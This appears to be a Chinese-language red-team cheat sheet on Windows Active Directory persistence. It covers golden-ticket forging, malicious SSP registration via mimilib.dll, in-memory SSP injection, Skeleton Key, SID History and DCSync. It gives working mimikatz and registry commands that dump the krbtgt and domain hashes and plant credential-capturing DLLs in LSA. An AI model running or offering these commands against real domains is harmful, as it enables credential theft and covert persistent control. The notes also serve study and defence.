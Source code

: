 ## PTT
Pass-the-Ticket, 针对Kerberos认证协议, 获取并使用合法用户的Kerberos ticket来冒充该用户

### 黄金票据伪造
条件
- 域名称: `whoami`
- 域SID: 
	- `whoami /user`
	- `wmic useraccount list brief`
- 域的KRBTGT账户密码Hash, ntlm hash或aes-256
	- `mimikatz lsadump::dcsync /user:krbtgt@<domain_name>
	- `mimikatz lsadump::dcsync /domain:<domain_name> /all /csv`
- 伪造(任意)用户名

## SSP
`SSP`: Security Support Provider, windows身份验证的dll

`SSPI`: Interface, windows系统在执行认证操作所使用的API

`LSA`: Local Security Authority, 用于身份认证, 常见进程为`lsass.exe`, 可扩展, 在系统启动时会加载SSP到其中, 即可以自定义和修改一个dll, 会在启动时被加载

### 永久加载
用mimikatz中的`mimilib.dll`, 放到`C:\Windows\system32`目录下, 并将其添加到注册表中, 有持久化效果

**需要重启该主机才能加载dll**

```sh
copy mimilib.dll %systemroot%\system32

reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

# 替换  
reg add "hklm\system\currentcontrolset\control\lsa" /v "Security Packages" /d "mimilib.d  
ll" /t REG_MULTI_SZ /f 

# 追加  
reg add "hklm\system\currentcontrolset\control\lsa" /v "Security Packages" /d "kerberos  
\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```

### 注入内存
不会在系统中留下二进制文件, 但如果域控重启, 被注入的伪造SSP会丢失
```sh
mimikatz privilege::debug  
mimikatz misc::memssp  
type C:\Windows\System32\mimilsa.log
```

## Skeleton Key
无需重启域控即可生效, Windows Server 2003 -- Windwos Server 2012 R2, 让所有域用户使用同一个万能密码登录
`misc:skeleton`

## SID History
每个用户独立, 跟踪安全主体控制用户连接资源时的访问权限
将A域中的用户迁移到B域中, SID会改变, 影响迁移后的权限
SID History在域迁移过程中保持用户的访问权限, 即系统会将原SID添加到迁移以后的用户的`SID History` 属性中, 保留其原有权限

## Dcsync
域环境中, 不同控制器间15分钟同步以此, 发起`GetNCChanges`请求, 数据包包括需要同步的数据

通过`Directory Replication Service`的`GetNCChanges`接口模仿域控, 从真实的域控中请求数据, 例如用户的哈希

可以不登陆到域控, 获取域控上的数据

获得域管理员权限后, 可以修改一个普通用户拥有DCSync权限, 来隐蔽完成权限维持, dump域哈希

域内用户的权限根据用户的DACL决定, 任意用户拥有以下三条DACL即可完成DCSync攻击请求, dump出域内用户hash: 
- 复制目录更改 (DS-Replication-Get-Changes)  
- 全部复制目录更改 (DS-Replication-Get-Changes-All)  
- 在过滤集中复制目录更改(可有可无) (DS-Replication-Get-Changes-In-Filtered-Set)

以下用户默认拥有这些权限：  
- Administrators 组内的用户  
- Domain Admins 组内的用户  
- Enterprise Admins 组内的用户  
- 域控制器的计算机帐户